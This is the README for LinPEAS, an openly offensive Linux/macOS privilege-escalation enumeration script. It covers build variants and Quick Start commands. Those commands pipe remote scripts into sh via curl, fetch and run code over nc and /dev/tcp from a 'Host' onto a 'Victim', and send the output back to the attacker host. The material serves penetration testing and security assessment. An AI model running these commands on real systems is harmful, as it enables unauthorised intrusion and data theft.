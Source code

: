 # LinPEAS - Linux Privilege Escalation Awesome Script

![](https/github.com/peass-ng/privilege-escalation-awesome-scripts-suite/raw/master/linPEAS/images/linpeas.png)

**LinPEAS is a script that search for possible paths to escalate privileges on Linux/Unix\*/MacOS hosts. The checks are explained on [book.hacktricks.wiki](https/book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html)**

Check the **Local Linux Privilege Escalation checklist** from **[book.hacktricks.wiki](https/book.hacktricks.wiki/en/linux-hardening/linux-privilege-escalation-checklist.html)**.

[![asciicast](https/asciinema.org/a/250532.png)](https/asciinema.org/a/309566)

## MacPEAS

Just execute `linpeas.sh` in a MacOS system and the **MacPEAS version will be automatically executed**

## Build your own linpeas!

The latest version of linpeas allows you to **select the checks you would like your linpeas to have** and built it only with those checks!

This allows to create **smaller and faster linpeas scripts** for stealth and speed purposes.

Check how to **select the checks you want to build [in your own linpeas following this link.](builder)**

Note that by default, in the releases pages of this repository, you will find a **linpeas with all the checks**.

## Differences between `linpeas_fat.sh`, `linpeas.sh` and `linpeas_small.sh`:

- **linpeas_fat.sh**: Contains all checks, even third party applications in base64 embedded.
- **linpeas.sh**: Contains all checks, but only the third party application `linux exploit suggester` is embedded. This is the default `linpeas.sh`.
- **linpeas_small.sh**: Contains only the most *important* checks making its size smaller.

## Quick Start
Find the **latest versions of all the scripts and binaries in [the releases page](https/github.com/peass-ng/PEASS-ng/releases/latest)**.

```bash
# From public github
curl -L https/github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

```bash
# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

